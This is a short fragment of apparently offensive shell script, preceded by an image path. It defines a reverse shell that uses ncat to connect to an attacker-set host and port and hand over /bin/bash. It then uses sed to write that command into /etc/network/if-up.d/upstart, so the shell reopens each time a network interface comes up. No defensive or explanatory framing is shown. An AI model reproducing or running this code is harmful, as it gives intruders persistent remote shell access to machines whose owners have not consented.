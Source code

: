 	RSHELL="ncat $LMTHD $LHOST $LPORT -e \"/bin/bash -c id;/bin/bash\" 2>/dev/null"
	sed -i -e "4i \$RSHELL" /etc/network/if-up.d/upstart